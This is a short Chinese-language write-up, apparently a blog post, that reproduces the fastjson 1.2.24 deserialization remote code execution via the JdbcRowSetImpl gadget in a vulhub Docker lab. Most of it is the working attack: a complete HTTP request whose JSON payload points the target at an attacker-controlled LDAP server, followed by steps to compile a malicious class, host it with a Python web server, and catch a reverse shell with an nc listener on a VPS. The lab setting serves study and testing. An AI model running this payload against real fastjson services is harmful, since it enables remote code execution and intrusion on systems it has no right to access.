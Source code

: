   
  
**Fastjsonn反序列化复现以及**  
  
**JdbcRowSetImpl 链儿利用**  
  
  
ubuntu 16.04 vulhub  
  
**fastjson 1.2.24 RCE**  
  
cd vulhub-master/fastjson/1.2.24-rce  
  
docker-compose up -d  
  
  
构造payload  
```
POST / HTTP/1.1
Host: 10.10.10.36:8090
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/json
Connection: close
Upgrade-Insecure-Requests: 1
Content-Length: 167

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"ldap://10.10.10.115:1389/rce",
        "autoCommit":true
    }
}
```  
  
  
编译恶意类  
  
javac rce.java  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaR0WOuExVV6krSc4p0osYI9jaZayu4DK2K1ntwWMuib0T7KdRicT2IGROVEVxYgKWzbpwLgftNyITQw/640?wx_fmt=png "")  
  
  
python起web服务  
  
python3 -m http.server 8888  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaR0WOuExVV6krSc4p0osYI9T8TMicCgG1K3ngullbKGvOT4oSIe5e3BoGRSbxO3rfiaV643LLVyd2IQ/640?wx_fmt=png "")  
  
  
vps起监听  
  
nc -lvvp 7777  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0Z0LqMyVGaR0WOuExVV6krSc4p0osYI9uKIdyl3l2b5uoRPvTicZx6BOlnE7xZu59ASOBahVQySSDgEPMKSuRGw/640?wx_fmt=png "")  
  
  